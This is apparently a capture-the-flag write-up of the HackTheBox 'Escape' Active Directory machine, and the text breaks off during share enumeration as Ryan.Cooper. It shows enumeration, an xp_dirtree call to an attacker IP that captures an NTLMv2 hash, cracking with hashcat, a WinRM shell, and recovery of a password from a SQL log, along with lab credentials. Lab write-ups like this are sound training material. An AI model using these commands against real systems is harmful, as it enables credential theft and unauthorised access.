


---
tags:
  - ad_cs
  - mssql
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Escape
- Reference : https://0xdf.gitlab.io/2023/06/17/htb-escape.html
- Solved : 2025.1.12. (Sat) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**:
        - Key services found: Kerberos (88), LDAP (389, 636), SMB (139, 445), WinRM (5985), MSSQL (1433).
    - **Domain Information**:
        - Discovered `sequel.htb` as the domain.
    - **DNS Records**:
        - Retrieved additional records: `dc.sequel.htb` and IP addresses.
    - **SMB**:
        - Accessible shares identified: `IPC$`, `Public`.
        - Extracted a PDF file (`SQL Server Procedures.pdf`) containing:
            - Users: Ryan, Tom.
            - MSSQL public credentials: `PublicUser:GuestUserCantWrite1`.
            
1. **Gaining Initial Access**
    - **MSSQL Exploitation**:
        - Logged in with `PublicUser` credentials.
        - Executed `xp_dirtree` to trigger an SMB connection.
        - Captured `sql_svc` Net-NTLMv2 hash with `Responder`.
        - Cracked the hash (`REGGIE1234ronnie`) to obtain the `sql_svc` password.
    - **WinRM Access**:
        - Used the cracked credentials to gain WinRM shell as `sql_svc`.
        
3. **Privilege Escalation to `Ryan.Cooper`**
    - **SQL Server Logs**:
        - Discovered `ERRORLOG.BAK` containing failed login attempts:
            - Username: `Ryan.Cooper`.
            - Password hint: `NuclearMosquito3`.
        - Successfully logged in as `Ryan.Cooper` using `NuclearMosquito3` via WinRM.
        
4. **Privilege Escalation to `Administrator`**
    - **ADCS Vulnerability**:
        - Discovered vulnerable certificate template `UserAuthentication` using Certipy.
        - Exploited `ESC1` (misconfigured certificate template) to request a certificate as `administrator`.
    - **NT Hash Dumping**:
        - Extracted `administrator`'s NT hash using the forged certificate.
        - Used the NT hash to access the system as `administrator` via WinRM.

### Key Techniques:

- **SMB Exploitation**: Extracted sensitive information via SMB shares and logs.
- **Responder** : Captured Net-NTLMv2 hash for lateral movement.
- **ADCS Exploitation**:Leveraged ESC1 misconfiguration to forge a certificate for privilege escalation.
- **Kerberos Authentication** : Used forged certificates to authenticate and dump NT hashes.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.202
Performing quick port scan on 10.10.11.202...
Found open ports: 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49702,49712,49744
Performing detailed scan on 10.10.11.202...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 10:43 EST
Nmap scan report for 10.10.11.202
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-11 23:43:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-01-11T23:45:11+00:00; +8h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-01-11T23:45:09+00:00; +8h00m00s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-11T23:45:11+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-11T23:37:31
|_Not valid after:  2055-01-11T23:37:31
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-01-11T23:45:11+00:00; +8h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-11T23:45:09+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-11T23:44:30
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.23 seconds
```

- Domain name : sequel.htb
- dns(53) : zone transfer
- smb(139,445) : check shares as a guest
- rpc(135) : rpcclient null session
- mssql(1433) : visit after obtain credentials
- winrm(5985) : Open a shell after obtaining credenstials

### dns(53)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ dig axfr sequel.htb @10.10.11.202

; <<>> DiG 9.20.0-Debian <<>> axfr sequel.htb @10.10.11.202
;; global options: +cmd
; Transfer failed.
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ dig any sequel.htb @10.10.11.202

; <<>> DiG 9.20.0-Debian <<>> any sequel.htb @10.10.11.202
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 2392
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;sequel.htb.                    IN      ANY

;; ANSWER SECTION:
sequel.htb.             600     IN      A       10.10.11.202
sequel.htb.             3600    IN      NS      dc.sequel.htb.
sequel.htb.             3600    IN      SOA     dc.sequel.htb. hostmaster.sequel.htb. 171 900 600 86400 3600
sequel.htb.             600     IN      AAAA    dead:beef::1dc
sequel.htb.             600     IN      AAAA    dead:beef::11b1:e03f:89d9:ed85

;; ADDITIONAL SECTION:
dc.sequel.htb.          3600    IN      A       10.10.11.202
dc.sequel.htb.          3600    IN      AAAA    dead:beef::11b1:e03f:89d9:ed85
dc.sequel.htb.          3600    IN      AAAA    dead:beef::1dc

;; Query time: 160 msec
;; SERVER: 10.10.11.202#53(10.10.11.202) (TCP)
;; WHEN: Sat Jan 11 11:49:58 EST 2025
;; MSG SIZE  rcvd: 247
```

Let's add `dc.sequel.htb` to `/etc/hosts`.

### smb(139,445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.202 -u 'guest' -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
SMB         10.10.11.202    445    DC               [+] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark                                                            
SMB         10.10.11.202    445    DC               -----           -----------     ------                                                            
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin                                                      
SMB         10.10.11.202    445    DC               C$                              Default share                                                     
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC                                                        
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share                                                
SMB         10.10.11.202    445    DC               Public          READ                                                                              
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share 
```

Only 2 shares are accessible : `IPC$`, `Public`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.202\\IPC$
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> exit


┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.202\\Public                     
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

5184255 blocks of size 4096. 1464275 blocks available

smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (62.3 KiloBytes/sec) (average 62.3 KiloBytes/sec)
```

I found one pdf file, and downloaded it. Let's see what is it.



It looks like an internal document containing a ton of information.
- Existing employees : Ryan, Tom
- MsSQL service might be a key.
- They provides different approaches to access to SQL.
- There might be a difference between 'Windows Authentication' and 'SQL Server Authentication'.
- Public account credential is provided : `PublicUser` : `GuestUserCantWrite1`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.202 -u PublicUser -p 'GuestUserCanWrite1' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\PublicUser:GuestUserCanWrite1 
SMB         10.10.11.202    445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED


┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.11.202 -u PublicUser -p 'GuestUserCanWrite1'
SMB         10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [-] sequel.htb\PublicUser:GuestUserCanWrite1
```

### rpc(135)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U '' 10.10.11.202
Password for [WORKGROUP\]:
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED

rpcclient $> queryuser administrator
result was NT_STATUS_ACCESS_DENIED

rpcclient $> lookupnames tom
result was NT_STATUS_NONE_MAPPED

rpcclient $> lookupnames ryan
result was NT_STATUS_NONE_MAPPED
```

### mssql(1433)

```sql
┌──(kali㉿kali)-[~/htb]
└─$ impacket-mssqlclient 'PublicUser:GuestUserCantWrite1@10.10.11.202'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> SELECT @@version;
                                                                                                                                                                                                                           
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
   

SQL (PublicUser  guest@master)> SELECT USER_NAME();
        
-----   
guest   

SQL (PublicUser  guest@master)> SELECT SYSTEM_USER;
             
----------   
PublicUser   

SQL (PublicUser  guest@master)> SELECT name FROM master.dbo.sysdatabases;
name     
------   
master   

tempdb   

model    

msdb 

SQL (PublicUser  guest@master)> xp_cmdshell whoami
ERROR: Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

Only default shares exist, and `xp_cmdshell` is not allowed.


# Shell as `sql_svc`

### Capture Net-NTLMv2 hash using `responder`

The last option to use here is trigger smb connection from mssql, and capture it using `responder`.
 This method is explained in HackTricks :
 https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html#mssql-privilege-escalation
 


```sql
SQL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.15\share', 1, 1;subdirectory   depth   file   
------------   -----   ----  
```

Then `responder` soon capture it.

```less
[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:a05260f31cbb4d8c:500D5C53C522029159FC6119F7796A9C:0101000000000000809B849C2764DB01E283ACA22FD5148B0000000002000800500044004700440001001E00570049004E002D0049004F00520051003300440056004B004A0047004B0004003400570049004E002D0049004F00520051003300440056004B004A0047004B002E0050004400470044002E004C004F00430041004C000300140050004400470044002E004C004F00430041004C000500140050004400470044002E004C004F00430041004C0007000800809B849C2764DB0106000400020000000800300030000000000000000000000000300000A2A559047789758E5C2A34D847515788E2ED4CCD80131CB2EC0845523CD60ACC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310035000000000000000000  
```

It captures `sql_svc` user's Net-NTLMv2 hash.
I ran `hashcat` to crack this hash.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 5600 -a 0 sql_svc.hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>

SQL_SVC::sequel:a05260f31cbb4d8c:500d5c53c522029159fc6119f7796a9c:0101000000000000809b849c2764db01e283aca22fd5148b0000000002000800500044004700440001001e00570049004e002d0049004f00520051003300440056004b004a0047004b0004003400570049004e002d0049004f00520051003300440056004b004a0047004b002e0050004400470044002e004c004f00430041004c000300140050004400470044002e004c004f00430041004c000500140050004400470044002e004c004f00430041004c0007000800809b849c2764db0106000400020000000800300030000000000000000000000000300000a2a559047789758e5c2a34d847515788e2ed4ccd80131cb2ec0845523cd60acc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000:REGGIE1234ronnie
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SQL_SVC::sequel:a05260f31cbb4d8c:500d5c53c522029159...000000
Time.Started.....: Sat Jan 11 12:57:58 2025 (6 secs)
Time.Estimated...: Sat Jan 11 12:58:04 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1724.0 kH/s (0.41ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10700800/14344385 (74.60%)
Rejected.........: 0/10700800 (0.00%)
Restore.Point....: 10699776/14344385 (74.59%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: REJONTE -> REDOCEAN22
Hardware.Mon.#1..: Util: 71%
```

It successfully cracked the hash! `REGGIE1234ronnie` is a password for `sql_svc`.
Let's check where I can use this.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie


┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'
SMB         10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

I can open an `winrm` shell with this crednetial.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami
sequel\sql_svc
```


# Shell as `Ryan.Cooper`

### Enumeration

Let's see what users in `C:\Users` directory.

```powershell
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc


*Evil-WinRM* PS C:\Users\Ryan.Cooper> ls
Access to the path 'C:\Users\Ryan.Cooper' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Ryan.Cooper:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

There is one more user `Ryan.Cooper`. Probably the one we've seen in PDF file.
We don't have an access to it for now.

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\winPEASx64.exe


ÉÍÍÍÍÍÍÍÍÍ͹ Display information about local users
   Computer Name           :   DC
   User Name               :   Administrator
   User Id                 :   500
   Is Enabled              :   True
   User Type               :   Administrator
   Comment                 :   Built-in account for administering the computer/domain
   Last Logon              :   1/11/2025 3:37:42 PM
   Logons Count            :   109
   Password Last Set       :   11/18/2022 1:13:16 PM
   =================================================================================
   Computer Name           :   DC
   User Name               :   Guest
   User Id                 :   501
   Is Enabled              :   True
   User Type               :   Guest
   Comment                 :   Built-in account for guest access to the computer/domain
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/1/1970 12:00:00 AM
   =================================================================================
   Computer Name           :   DC
   User Name               :   krbtgt
   User Id                 :   502
   Is Enabled              :   False
   User Type               :   User
   Comment                 :   Key Distribution Center Service Account
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   11/18/2022 9:12:10 AM
   =================================================================================
   Computer Name           :   DC
   User Name               :   Tom.Henn
   User Id                 :   1103
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   11/18/2022 1:13:12 PM
=================================================================================
   Computer Name           :   DC
   User Name               :   Brandon.Brown
   User Id                 :   1104
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   11/18/2022 1:13:13 PM

   =================================================================================
   Computer Name           :   DC
   User Name               :   Ryan.Cooper
   User Id                 :   1105
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/18/2024 3:29:52 PM
   Logons Count            :   10
   Password Last Set       :   2/1/2023 1:52:57 PM
   ================================================================================
   Computer Name           :   DC
   User Name               :   sql_svc
   User Id                 :   1106
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/11/2025 3:37:27 PM
   Logons Count            :   35
   Password Last Set       :   11/18/2022 1:13:13 PM
   =================================================================================
   Computer Name           :   DC
   User Name               :   James.Roberts
   User Id                 :   1107
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   11/18/2022 1:13:13 PM
   ================================================================================
   Computer Name           :   DC
   User Name               :   Nicole.Thompson
   User Id                 :   1108
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   11/18/2022 1:13:13 PM
   =============================================================================== 


ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  sequel
    DefaultUserName               :  Administrator


ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating machine and user certificate files

  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            :
  ValidDate          : 1/18/2024 3:03:57 PM
  ExpiryDate         : 1/5/2074 3:03:57 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : D88D12AE8A50FCF12242909E3DD75CFF92D1A480

  Template           : Template=Kerberos Authentication(1.3.6.1.4.1.311.21.8.15399414.11998038.16730805.7332313.6448437.247.1.33), Major Version Number=110, Minor Version Number=2
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
       KDC Authentication
=================================================================================
  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            :
  ValidDate          : 11/18/2022 1:05:34 PM
  ExpiryDate         : 11/18/2023 1:05:34 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : B3954D2D39DCEF1A673D6AEB9DE9116891CE57B2

  Template           : Template=Kerberos Authentication(1.3.6.1.4.1.311.21.8.15399414.11998038.16730805.7332313.6448437.247.1.33), Major Version Number=110, Minor Version Number=0
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
       KDC Authentication
=================================================================================
  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            : CN=sequel-DC-CA, DC=sequel, DC=htb
  ValidDate          : 11/18/2022 12:58:46 PM
  ExpiryDate         : 11/18/2121 1:08:46 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : A263EA89CAFE503BB33513E359747FD262F91A56
  ================================================================================
  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            : CN=dc.sequel.htb
  ValidDate          : 1/11/2025 3:27:38 PM
  ExpiryDate         : 1/11/2026 3:27:38 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 5E3DD934CA5F30A512370C17C5660F460EA22D24

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
   =========================================================================
```

More users found : Tom.Henn, Brandon.Brown, James.Roberts, Nicole.Thompson
Also certificate files are found. This might be led to "ADCS" attack later..

```powershell
*Evil-WinRM* PS C:\> ls                                                    
    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
d-----         2/6/2023   7:21 AM                Windows
```

`C:\` directory contains non-standard directories : `Public`, `SQLServer`

```powershell
*Evil-WinRM* PS C:\Public> ls
    Directory: C:\Public
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/18/2022   5:39 AM          49551 SQL Server Procedures.pdf


*Evil-WinRM* PS C:\SQLServer> ls
    Directory: C:\SQLServer
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:06 AM                Logs
d-----       11/18/2022   1:37 PM                SQLEXPR_2019
-a----       11/18/2022   1:35 PM        6379936 sqlexpress.exe
-a----       11/18/2022   1:36 PM      268090448 SQLEXPR_x64_ENU.exe
```

It looks like `Public` is the share we saw in smb service.

```powershell
*Evil-WinRM* PS C:\SQLServer\Logs> ls


    Directory: C:\SQLServer\Logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK


*Evil-WinRM* PS C:\SQLServer\Logs> download ERRORLOG.BAK

Info: Downloading C:\SQLServer\Logs\ERRORLOG.BAK to ERRORLOG.BAK

Info: Download successful!
```

Let's see what's in `ERRORLOG.BAK`

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ cat ERRORLOG.BAK
��2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

<SNIP>

2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
<SNIP>
```

I focused on "Logon failed" message. Two users (`Ryan.Cooper`, `NuclearMosquito3`) failed.
Since the latter one doesn't include domain(`sequel.htb\`) syntax, I guess that this might be the common mistake typing password in username!
Given this assumption, let's test it with `crackmapexec`.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 


┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 
SMB         10.10.11.202    445    DC               [+] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark                                                              
SMB         10.10.11.202    445    DC               -----           -----------     ------                                                              
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin                                                        
SMB         10.10.11.202    445    DC               C$                              Default share                                                       
